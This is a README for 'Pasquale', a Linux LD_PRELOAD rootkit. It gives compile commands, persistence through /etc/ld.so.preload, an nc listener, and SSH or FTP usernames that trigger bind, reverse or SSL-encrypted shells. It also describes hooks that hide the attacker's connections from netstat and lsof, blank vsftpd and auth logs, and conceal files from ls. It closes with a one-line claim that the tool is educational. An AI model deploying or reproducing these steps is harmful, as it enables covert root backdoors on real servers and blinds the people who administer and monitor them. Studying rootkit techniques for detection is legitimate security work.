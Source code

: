 ---

# Pasquale Rootkit

## Overview

Pasquale is a userland rootkit utilizing the `LD_PRELOAD` technique to hook system calls and provide various backdoor functionalities. It demonstrates several concepts spanning C programming, socket programming, openSSL, system calls, and various elements related to Linux. The rootkit targets `syslog` and `vsftpd`, triggering one of three possible backdoors. Any network connections made by the attacker are hidden from `netstat` and `lsof`. The rootkit also hides the attacker from logs that usually monitor SSH and FTP connections. 

## Features

- **Backdoor Access**: Provides two types of backdoors: bind shell, reverse shell, and SSL-encrypted shell, which can be triggered through both SSH and FTP.
- **Log Manipulation**: Hides specific log entries from `vsftpd.log` and `auth.log`.
- **Process Hiding**: Conceals specific connections from `netstat` and `lsof`.

## Installation

### Prerequisites

Ensure you have OpenSSL installed on your system. 

### Supported Distributions

Pasquale is supported by Debian-based systems, as well as CentOS. 

### Compilation

Compile the rootkit as a shared library on the target system:

```bash
gcc pasquale.c -fPIC -shared -D_GNU_SOURCE -o lib.pack.so.6 -ldl -lssl -lcrypto
```

### Deployment

This rootkit would be installed on a Linux server where an attacker would have root access. The steps below assume you have root access on the target system.

1. **Compile the Library on Target**: Follow the compilation step directly on the target system to create `lib.pack.so.6`.

2. **Configure `LD_PRELOAD`**: Add the library to `/etc/ld.so.preload`.

    ```bash
    echo "/path/to/lib.pack.so.6" > /etc/ld.so.preload
    ```

### Verification

Verify that the library is loaded:

```bash
ldd /bin/ls
```

Check that `lib.pack.so.6` is listed.

## Usage

### Starting a Listener

Start a listener on the attacker's machine:

```bash
nc -lvp 443
```

### Triggering the Backdoor

Use one of the special usernames to trigger the desired backdoor (bind, reverse, or SSL):

```bash
ssh BIND_USER@target
ssh REVERSE_USER@target
ssh OPENSSL_USER@target
```

Alternatively, these backdoors can also be triggered via FTP with the same usernames:

```bash
ftp target
# login with username BIND_USER, REVERSE_USER, or OPENSSL_USER
```

## Functionality Details

### System Call Hooking

- **LD_PRELOAD** LD_PRELOAD is an enviornmental variable (and also a file) that is checked before all other libraries. If set to the compiled rootkit library, all defined system calls in `pasquale.c` will be dynamically linked before the actual system calls. 
- **write Hook**: Intercepts `write` calls to check for specific usernames. Depending on the username, it triggers a bind shell, reverse shell, or SSL-encrypted shell. The ssh and ftp processes both make write calls when a username is submitted. 
- **fopen Hook**: Intercepts `fopen` calls to hide entries from `/var/log/vsftpd.log` and certain network connections from `netstat` and `lsof`.
- **readdir Hook**: Intercepts directory reads to hide the rootkit's presence, including the `ls` command.

### Abuse of syslog and vsftpd

- **Syslog**: The rootkit hooks the `write` syscall to detect specific usernames logged by `syslog`. When detected, it triggers the appropriate backdoor and writes to `/dev/null`, ensuring no logs containing the usernames are written.
- **vsftpd**: The `fopen` hook redirects writes to `/var/log/vsftpd.log` to `/dev/null`, ensuring the log file remains empty.

## Important Notes

- **Educational Purposes**: This rootkit is intended for educational purposes only. Do not use it for malicious activities.


